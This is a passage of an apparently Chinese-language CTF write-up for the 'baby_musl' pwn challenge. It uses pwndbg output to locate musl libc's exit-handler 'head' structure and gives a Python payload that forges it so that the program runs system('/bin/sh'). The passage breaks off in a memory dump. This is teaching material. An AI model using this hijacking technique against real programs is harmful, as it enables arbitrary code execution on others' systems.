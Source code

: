 经过分析，`head`的地址为`0x7f1bd695ef58`

```assembly
pwndbg> tele 0x7f1bd695ef58
00:0000│   0x7f1bd695ef58 —▸ 0x7f1bd695f3e0 ◂— 0x7f1bd695f3e0
01:0008│   0x7f1bd695ef60 (program_invocation_name) —▸ 0x7ffe5ce0216a ◂— './baby_musl'
02:0010│   0x7f1bd695ef68 (program_invocation_short_name) —▸ 0x7ffe5ce0216c ◂— 'baby_musl'
03:0018│   0x7f1bd695ef70 ◂— 0x0
pwndbg> vmmap
LEGEND: STACK | HEAP | CODE | DATA | RWX | RODATA
    0x556d8f800000     0x556d8f801000 r-xp     1000 0      /home/neibelungen/Desktop/PWN/BSCTF/baby_musl/baby_musl
    0x556d8fa01000     0x556d8fa02000 r--p     1000 1000   /home/neibelungen/Desktop/PWN/BSCTF/baby_musl/baby_musl
    0x556d8fa02000     0x556d8fa03000 rw-p     1000 2000   /home/neibelungen/Desktop/PWN/BSCTF/baby_musl/baby_musl
    0x7f1bd68ac000     0x7f1bd68c1000 r--p    15000 0      /usr/lib/x86_64-linux-musl/libc.so
    0x7f1bd68c1000     0x7f1bd6925000 r-xp    64000 15000  /usr/lib/x86_64-linux-musl/libc.so
    0x7f1bd6925000     0x7f1bd695b000 r--p    36000 79000  /usr/lib/x86_64-linux-musl/libc.so
    0x7f1bd695b000     0x7f1bd695c000 r--p     1000 ae000  /usr/lib/x86_64-linux-musl/libc.so
    0x7f1bd695c000     0x7f1bd695d000 rw-p     1000 af000  /usr/lib/x86_64-linux-musl/libc.so
    0x7f1bd695d000     0x7f1bd6960000 rw-p     3000 0      
    0x7ffe5cde2000     0x7ffe5ce03000 rw-p    21000 0      [stack]
    0x7ffe5cf1f000     0x7ffe5cf23000 r--p     4000 0      [vvar]
    0x7ffe5cf23000     0x7ffe5cf25000 r-xp     2000 0      [vdso]
0xffffffffff600000 0xffffffffff601000 --xp     1000 0      [vsyscall]
```

可以看到它位于可读可写段，而其结构地址关系如下：

```c
arg  = head + 0x108 + slot*8
func = head + 	0x8	+ slot*8
```

可以通过伪造这部分结构执行多次`func(arg)`达到攻击效果，在这里我们只需要执行一次`system("/bin/sh")`即可。

构造payload如下。

```python
payload = p64(fake_fl)
payload += b'A' * 0xf8
payload += p64(system)
payload += b'A' * 0xf8
payload += p64(binsh)
```

查看对应内存：

```c
pwndbg> x/70gx 0x7f1bd695f3e0
0x7f1bd695f3e0:	0x00007f1bd695f3e0	0x4141414141414141
0x7f1bd695f3f0:	0x4141414141414141	0x00007f1bd695ef48
0x7f1bd695f400:	0x4141414141414141	0x4141414141414141
0x7f1bd695f410:	0x4141414141414141	0x4141414141414141
0x7f1bd695f420:	0x4141414141414141	0x4141414141414141
0x7f1bd695f430:	0x4141414141414141	0x4141414141414141
0x7f1bd695f440:	0x4141414141414141	0x4141414141414141
0x7f1bd695f450:	0x4141414141414141	0x4141414141414141
0x7f1bd695f460:	0x4141414141414141	0x4141414141414141
0x7f1bd695f470:	0x4141414141414141	0x4141414141414141
0x7f1bd695f480:	0x4141414141414141	0x4141414141414141
0x7f1bd695f490:	0x4141414141414141	0x4141414141414141
0x7f1bd695f4a0:	0x4141414141414141	0x4141414141414141
0x7f1bd695f4b0:	0x4141414141414141	0x4141414141414141
0x7f1bd695f4c0:	0x4141414141414141	0x4141414141414141
0x7f1bd695f4d0:	0x4141414141414141	0x4141414141414141
0x7f1bd695f4e0:	0x00007f1bd68faf80	0x4141414141414141
0x7f1bd695f4f0:	0x4141414141414141	0x4141414141414141
```